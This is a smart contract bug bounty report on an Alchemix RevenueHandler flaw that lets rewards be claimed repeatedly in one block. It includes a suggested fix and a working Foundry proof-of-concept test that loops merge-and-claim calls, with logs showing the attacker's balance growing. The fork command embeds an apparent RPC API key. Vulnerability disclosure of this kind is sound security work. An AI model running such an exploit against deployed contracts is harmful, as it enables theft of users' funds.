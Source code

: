 
# # `RevenueHandler.checkpoint` allows users to claim rewards in the current block causing attacker can claim rewards repeatedly  -

Submitted on Wed May 15 2024 13:01:43 GMT-0400 (Atlantic Standard Time) by @yttriumzz for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31242

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/RevenueHandler.sol

Impacts:
- Theft of unclaimed yield

## Description
## Brief/Intro

The `RevenueHandler` contract receives the revenue from Alchemix protocol. One part of the revenue
is sent to the treasury. The rest is distributed to users that have $veToken. Each $veToken can claim rewards once per epoch. Anyone can call the `RevenueHandler.checkpoint` interface to refresh the `currentEpoch`. However, the `checkpoint` interface allows the `currentEpoch` to be updated to the timestamp of the current block, allowing attackers to use `VotingEscrow.merge` to repeatedly claim rewards.

## Vulnerability Details

Please look at the following code. When `block.timestamp` is equal to `currentEpoch + WEEK`, `currentEpoch` is updated to `block.timestamp`.

```solidity
///// https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/RevenueHandler.sol#L228-L231
    function checkpoint() public {
        // only run checkpoint() once per epoch
        if (block.timestamp >= currentEpoch + WEEK /* && initializer == address(0) */) {
            currentEpoch = (block.timestamp / WEEK) * WEEK;
```

The `RevenueHandler` contract calculates the number of rewards that can be claimed for a certain $veToken based on the value of the $veToken at the `currentEpoch` time point. Please see the code below.

```solidity
///// https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/RevenueHandler.sol#L314-L324
        for (
            uint256 epochTimestamp = lastClaimEpochTimestamp + WEEK;
            epochTimestamp <= currentEpoch;
            epochTimestamp += WEEK
        ) {
            uint256 epochTotalVeSupply = IVotingEscrow(veALCX).totalSupplyAtT(epochTimestamp);
            if (epochTotalVeSupply == 0) continue;
            uint256 epochRevenue = epochRevenues[epochTimestamp][token];
            uint256 epochUserVeBalance = IVotingEscrow(veALCX).balanceOfTokenAt(tokenId, epochTimestamp);
            totalClaimable += (epochRevenue * epochUserVeBalance) / epochTotalVeSupply;
        }
```

If `currentEpoch` can be set as the timestamp of the current block, then after the user claim the $veToken reward in the current block, he can transfer the value of $veToken to another $veToken through `VotingEscrow.merge` to continue claim it. The attack steps are briefly described below. Please see the PoC for details.

1. When the `block.timestamp` of the block happens to be `currentEpoch + WEEK`, the attacker calls `RevenueHandler.checkpoint` to update `currentEpoch` to `block.timestamp`
2. The attacker mints a $veTokenA and claim the reward
3. The attacker mints a $veTokenTemp worth 1 wei with a cost of `~0`
4. The attacker merges $veTokenA into $veTokenTemp and claim rewards for $veTokenTemp
5. Treat $veTokenTemp as $veTokenA and go back to Step2

Note that all the above steps are run in the same block.

**Suggested fix**

Users should only be able to claim past rewards

```diff
    function checkpoint() public {
        // only run checkpoint() once per epoch
-       if (block.timestamp >= currentEpoch + WEEK /* && initializer == address(0) */) {
+       if (block.timestamp > currentEpoch + WEEK /* && initializer == address(0) */) {
            currentEpoch = (block.timestamp / WEEK) * WEEK;
```

## Impact Details

Users can claim rewards repeatedly

## References

None
        
## Proof of concept
## Proof of Concept

The PoC patch

```diff
diff --git a/src/test/RevenueHandler.t.sol b/src/test/RevenueHandler.t.sol
index 7908478..dab62e9 100644
--- a/src/test/RevenueHandler.t.sol
+++ b/src/test/RevenueHandler.t.sol
@@ -644,4 +644,62 @@ contract RevenueHandlerTest is BaseTest {
         revenueHandler.setTreasury(admin);
         assertEq(revenueHandler.treasury(), admin, "treasury should be admin");
     }
+
+    function testYttriumzzPocTemp() external {
+        // 0. Init test env
+        vm.warp((block.timestamp / 2 weeks) * 2 weeks);
+        hevm.startPrank(admin);
+        deal(bpt, admin, 10000e18);
+        IERC20(bpt).approve(address(veALCX),  type(uint256).max);
+        veALCX.checkpoint();
+        veALCX.createLock(10000e18, 0, true);
+        hevm.stopPrank();
+
+        // 1. Start test and init BPT token
+        address attacker = address(0xa77ac8e3);
+        hevm.startPrank(attacker);
+        console.log(">>>>> Init balance of rewards token");
+        console.log(">> bal.balanceOf(attacker): %s", IERC20(bal).balanceOf(attacker));
+        console.log();
+
+        deal(bpt, attacker, 10000e18);
+        IERC20(bpt).approve(address(veALCX),  type(uint256).max);
+
+        // 2. Checkpoint RevenueHandler
+        //    It is required that `block.timestamp` is exactly `currentEpoch + WEEK`, `block.timestamp` is in seconds, so it is likely to happen.
+        deal(bal, address(revenueHandler), 100e18);
+        vm.warp(block.timestamp + 2 weeks);
+        revenueHandler.checkpoint();
+
+        // 3. Start steal rewards
+        //    Step 3 and step 2 exist in the same block
+        console.log(">>>>> Claim the veToken");
+        veALCX.checkpoint();
+        uint256 tokenId1 = veALCX.createLock(1e18, 0, true);
+        revenueHandler.claim(tokenId1, bal, address(0), revenueHandler.claimable(tokenId1, bal), attacker);
+        console.log(">> bal.balanceOf(attacker): %s", IERC20(bal).balanceOf(attacker));
+        console.log();
+
+        console.log(">>>>> Start steal rewards 50 times");
+        for (uint256 i = 0; i < 50; i++) {
+            uint256 tokenIdTemp = veALCX.createLock(1, 0, true);
+            veALCX.merge(tokenId1, tokenIdTemp);
+            revenueHandler.claim(tokenIdTemp, bal, address(0), revenueHandler.claimable(tokenIdTemp, bal), attacker);
+            tokenId1 = tokenIdTemp;
+        }
+        console.log(">> bal.balanceOf(attacker): %s", IERC20(bal).balanceOf(attacker));
+        console.log();
+
+        console.log(">>>>> Start steal rewards 100 times");
+        for (uint256 i = 0; i < 100; i++) {
+            uint256 tokenIdTemp = veALCX.createLock(1, 0, true);
+            veALCX.merge(tokenId1, tokenIdTemp);
+            revenueHandler.claim(tokenIdTemp, bal, address(0), revenueHandler.claimable(tokenIdTemp, bal), attacker);
+            tokenId1 = tokenIdTemp;
+        }
+        console.log(">> bal.balanceOf(attacker): %s", IERC20(bal).balanceOf(attacker));
+        console.log();
+
+        hevm.stopPrank();
+    }
 }
```

Run the PoC

```bash
FOUNDRY_PROFILE=default forge test --fork-url https://eth-mainnet.alchemyapi.io/v2/VFefkgjj8h3SgRYcCvmtp9KoMJJij6gD --fork-block-number 17133822 -vvv --match-test testYttriumzzPocTemp
```

The log

```bash
$ FOUNDRY_PROFILE=default forge test --fork-url https://eth-mainnet.alchemyapi.io/v2/VFefkgjj8h3SgRYcCvmtp9KoMJJij6gD --fork-block-number 17133822 -vvv --match-test testYttriumzzPocTemp
[⠊] Compiling...
No files changed, compilation skipped

Ran 1 test for src/test/RevenueHandler.t.sol:RevenueHandlerTest
[PASS] testYttriumzzPocTemp() (gas: 118159985)
Logs:
  >>>>> Init balance of rewards token
  >> bal.balanceOf(attacker): 0
  
  >>>>> Claim the veToken
  >> bal.balanceOf(attacker): 9999000099906589
  
  >>>>> Start steal rewards 50 times
  >> bal.balanceOf(attacker): 509949005095236039
  
  >>>>> Start steal rewards 100 times
  >> bal.balanceOf(attacker): 1509849015085894939
  

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 458.15ms (442.17ms CPU time)

Ran 1 test suite in 2.09s (458.15ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

